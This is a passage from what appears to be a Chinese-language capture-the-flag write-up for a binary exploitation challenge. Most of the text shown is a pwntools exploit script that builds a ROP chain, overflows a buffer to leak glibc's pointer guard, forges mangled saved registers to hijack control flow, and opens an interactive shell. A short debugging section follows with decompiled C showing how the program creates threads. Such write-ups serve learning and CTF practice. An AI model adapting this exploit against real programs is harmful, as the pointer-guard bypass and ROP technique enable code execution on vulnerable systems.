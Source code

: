```python
rop_payload+= p64(buffer+0x100)
rop_payload+= p64(0x0)
rop_payload+= p64(write_plt)
rop_payload+= rop_payload.ljust(0x100, b"a")
header+= rop_payload+b'\r\n'

p.send(header)
p.send('\n')

#这里要注意题目要求的是strncmp(s, "\r\nuser=newbew", 0xCuLL)
payload = b'\r\n'+b"user=newbew"+cyclic(2848-13-7)+b'success'
p.send(payload)
p.recvuntil(b"success")
pointer_guard = u64(p.recv(8))
print("Pointer guard:",hex(pointer_guard))

payload = b"&pass=v3rdant".ljust(0x200, b'a')

regs = flat({
    0x8:ptr_g(buffer+0x28, pointer_guard),  #rbp
    #rsp刚好指向rop_payload的地方
    0x30:ptr_g(buffer+0x28, pointer_guard), #rsp
    0x38:ptr_g(ret_addr, pointer_guard),    #rdx的值，jmp rdx
    }
)

payload += regs

payload = payload.ljust(2848-0x20, b'a') #保证fs:[0x10]的值是一个可写的地址即可
payload+= p64(buffer+0x400)*4
print(len(payload))

p.send(payload)

p.interactive()

```

解题遇到的问题及解决
----------

### 多线程如何dbg

- main中有如下代码,创建了另一个线程

```c
 if ( strstr(haystack, "flag.txt") )
      start_routine = (void *(*)(void *))func1;
    else
      start_routine = (void *(*)(void *))func2;
    pthread_create(&newthread, 0LL, start_routine, &method);
    pthread_join(newthread, 0LL);
    status = 0;
```
